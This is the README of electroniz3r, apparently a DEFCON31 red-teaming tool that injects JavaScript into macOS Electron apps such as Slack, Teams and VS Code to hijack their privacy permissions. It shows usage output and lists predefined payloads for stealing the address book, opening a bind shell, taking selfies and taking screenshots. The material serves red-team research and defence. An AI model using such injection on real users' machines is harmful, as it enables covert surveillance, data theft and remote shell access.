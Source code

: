 ![electroniz3r-small](https://github.com/r3ggi/electroniz3r/assets/15366054/161dc5f3-4de2-4291-8b35-c4e0371c86d9)

# electroniz3r
Take over macOS Electron apps' TCC permissions with electroniz3r. The tool has been presented for the first time on DEFCON31 in Las Vegas during my `ELECTRONizing macOS privacy - a new weapon in your red teaming armory` talk.

## Overview

```
$ electroniz3r
OVERVIEW: macOS Red Teaming tool that allows code injection in Electron apps
 by Wojciech Reguła (@_r3ggi)

USAGE: electroniz3r <subcommand>

OPTIONS:
  -h, --help              Show help information.

SUBCOMMANDS:
  list-apps               List all installed Electron apps
  inject                  Inject code to a vulnerable Electron app
  verify                  Verify if an Electron app is vulnerable to code injection

  See 'electroniz3r help <subcommand>' for detailed help.
```

### list-apps

```
$ electroniz3r list-apps
╔══════════════════════════════════════════════════════════════════════════════════════════════════════╗
║    Bundle identifier                      │       Path                                               ║
╚──────────────────────────────────────────────────────────────────────────────────────────────────────╝
com.microsoft.VSCode                         /Applications/Visual Studio Code.app
com.vmware.fusionApplicationsMenu            /Applications/VMware Fusion.app/Contents/Library/VMware Fusion Applications Menu.app
notion.id                                    /Applications/Notion.app
com.github.GitHubClient                      /Applications/GitHub Desktop.app
com.logi.optionsplus                         /Applications/logioptionsplus.app
com.microsoft.teams                          /Applications/Microsoft Teams.app
com.tinyspeck.slackmacgap                    /Applications/Slack.app
```

### verify

```
$ electroniz3r verify "/Applications/GitHub Desktop.app"
/Applications/GitHub Desktop.app started the debug WebSocket server
The application is vulnerable!
You can now kill the app using `kill -9 7033`
```

### inject

```
$ electroniz3r help inject
OVERVIEW: Inject code to a vulnerable Electron app

USAGE: electroniz3r inject <path> [--path-js <path-js>] [--predefined-script <predefined-script>]

ARGUMENTS:
  <path>                  Path to the Electron app

OPTIONS:
  --path-js <path-js>     Path to a file containing JavaScript code to be executed
  --predefined-script <predefined-script>
                          Use predefined JS scripts (calc, screenshot, stealAddressBook, bindShell, takeSelfie)
  -h, --help              Show help information.
```
